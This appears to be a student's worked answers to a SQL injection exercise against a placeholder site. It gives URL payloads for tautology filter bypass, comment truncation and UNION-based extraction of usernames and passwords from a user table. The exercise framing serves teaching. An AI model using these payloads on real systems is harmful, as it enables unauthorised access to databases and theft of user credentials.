 ### **Exercice 01: SQL Injection Attacks**

#### **1. How to verify if the site is vulnerable to SQL injection?**

To check for SQL injection vulnerability, manipulate the `category` parameter in the URL to inject SQL code and observe the application's response. For example:

- Original URL: `https://insecure-website.com/products?category=Gifts`
- Test URL: `https://insecure-website.com/products?category=Gifts' OR '1'='1`

This modifies the SQL query to:

```sql
SELECT id, nom, category, price 
FROM products 
WHERE category = 'Gifts' OR '1'='1' AND released = 1
```

Since `'1'='1'` is always true, the query returns all products where `released = 1`, regardless of the category. If the application displays all products (not just those in the "Gifts" category), it indicates a vulnerability, as the input directly affects the query without proper sanitization.

Another test is to inject an invalid query, e.g., `category=Gifts'` (adding a single quote). If the application returns a database error (e.g., SQL syntax error), it confirms that user input is not properly sanitized or escaped.

#### **2. Construct an attack to display all products from any category, including unknown categories.**

To bypass the category filter and display all products (including those in unknown categories or unreleased products), use a tautology to make the `WHERE` condition always true. Modify the URL as follows:

- Attack URL: `https://insecure-website.com/products?category=Gifts' OR '1'='1`

This results in the SQL query:

```sql
SELECT id, nom, category, price 
FROM products 
WHERE category = 'Gifts' OR '1'='1' AND released = 1
```

Alternatively, to include unreleased products (`released = 0`), use:

- Attack URL: `https://insecure-website.com/products?category=Gifts' OR 1=1 --`

This produces:

```sql
SELECT id, nom, category, price 
FROM products 
WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

The `--` comments out the rest of the query, making it equivalent to:

```sql
SELECT id, nom, category, price 
FROM products 
WHERE category = 'Gifts' OR 1=1
```

This returns all products from all categories, ignoring the `released = 1` condition.

#### **3. The results of the SQL query are returned and displayed in the application’s responses.**

This statement implies that the application directly outputs the results of the SQL query (e.g., product details) to the user interface. For an attacker, this means that any manipulated query (like those in questions 2 and 4) will have its results visible in the application’s response, such as a webpage listing products or other data. This behavior confirms the vulnerability, as the application does not filter or hide sensitive data returned by the database.

#### **4. Construct an attack to retrieve data from other tables, specifically the `user` table (id, name, utilisateur, password, type_account, date).**

To extract data from the `user` table, use a `UNION` attack to append the desired data to the original query’s result set. The original query is:

```sql
SELECT id, nom, category, price 
FROM products 
WHERE category = 'Gifts' AND released = 1
```

The `user` table has columns `id, name, utilisateur, password, type_account, date` (6 columns), but the original query returns 4 columns (`id, nom, category, price`). To match the column count, select 4 columns from the `user` table or pad with dummy values. Construct the attack as follows:

- Attack URL: `https://insecure-website.com/products?category=Gifts' UNION SELECT id, name, utilisateur, password FROM user --`

This results in:

```sql
SELECT id, nom, category, price 
FROM products 
WHERE category = 'Gifts' UNION SELECT id, name, utilisateur, password FROM user --' AND released = 1
```

- The `UNION` combines the results of the two queries.
- The `--` comments out the `AND released = 1` condition.
- The query returns:
  - All products where `category = 'Gifts' AND released = 1`.
  - All rows from the `user` table, with columns `id, name, utilisateur, password` mapped to `id, nom, category, price` in the output.

If the application displays the results, the attacker sees user data (e.g., IDs, names, usernames, and passwords) in the product listing.

To retrieve all columns (`id, name, utilisateur, password, type_account, date`), the attacker must adjust the query to handle the column mismatch, possibly by injecting into a different endpoint or using a tool to enumerate columns. Alternatively, use:

- Attack URL: `https://insecure-website.com/products?category=Gifts' UNION SELECT id, name, utilisateur, concat(password, ' ', type_account, ' ', date) FROM user --`

This concatenates `password`, `type_account`, and `date` into one column to fit the 4-column output.
